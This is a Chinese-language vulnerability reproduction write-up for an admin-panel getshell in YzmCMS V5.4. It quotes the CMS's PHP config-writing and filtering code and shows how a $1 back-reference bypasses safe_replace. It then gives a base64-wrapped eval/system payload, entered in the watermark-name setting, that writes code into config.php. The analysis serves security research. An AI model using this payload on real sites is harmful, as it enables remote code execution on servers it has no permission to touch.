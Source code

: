 # YzmCMS V5.4 后台getshell（二）

### 一、漏洞简介

### 二、漏洞影响

YzmCMS V5.4

### 三、复现过程

**漏洞分析**

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的mode就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改mode这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](images/15896477000155.png)


该函数位于文件application/admin/common/function/function.php


```php
function set_config($config) {
    $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
    if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
    $pattern = $replacement = array();
    foreach($config as $k=>$v) {
        $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
        $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
    }
    $str = file_get_contents($configfile);
    $str = preg_replace($pattern, $replacement, $str);
    return file_put_contents($configfile, $str, LOCK_EX);       
}
```

可以看到，补丁在原来的函数中增加了一行代码，将传入的$config中的字符,和$移除了，而原先就直接经过特定的正则表达式将config.php文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有application/admin/controller/system_manage.class.php中的save


```php
public function save() {
        yzm_base::load_common('function/function.php', 'admin');
        if(isset($_POST['dosubmit'])){
            if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
            }
            if(isset($_POST['upload_types'])){
                if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
            }
            $arr = array();
            $config = D('config');
            foreach($_POST as $key => $value){
                if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                    $value = safe_replace(trim($value));
                    $arr[$key] = $value;
                }else{
                    if($key!='site_code'){
                        $value = htmlspecialchars($value);
                    }
                }
                $config->update(array('value'=>$value), array('name'=>$key));
            }
            set_config($arr);
            delcache('configs');
            showmsg(L('operation_success'), '', 1);
        }
    }
```

在save中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过safe_replace后传入set_config，其他项则是直接在数据库中更新。

safe_replace则对一些特殊字符进行了过滤


```php
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','&lt;',$string);
    $string = str_replace('>','&gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\\','',$string);
    return $string;
}
```

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含safe_replace中的特殊字符，最后value会被拼接成为preg_replace中的第二个参数$replacement的一部分。而在$replacement中用了${1}这样的形式来指定上文匹配到的'，虽然{}被过滤了，但是$1实际上是与${1}等价的，因此我们通过这种方式闭合单引号，然后,也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是>是被过滤的，所以我们无法插入key => value这样的形式来修改项。不过可以直接插入函数，像array(0=>1,func())的形式中，func是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

#### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](images/15896477694054.png)


通过上文的分析我们来构建payload。

将system('echo 123');base64_encode以后为c3lzdGVtKCdlY2hvIDEyMycpOw==，套一层eval并且闭合单引号后payload为


```bash
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1
```

先查看配置文件原先的内容

![](images/15896477886731.png)


回到页面，水印图片名称就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](images/15896477988372.png)


提交以后可以发现已经成功执行命令了

![](images/15896478065992.png)


再回去查看配置文件可以看到代码也写入了

![](images/15896478152743.png)


参考链接

https://xz.aliyun.com/t/7231#toc-5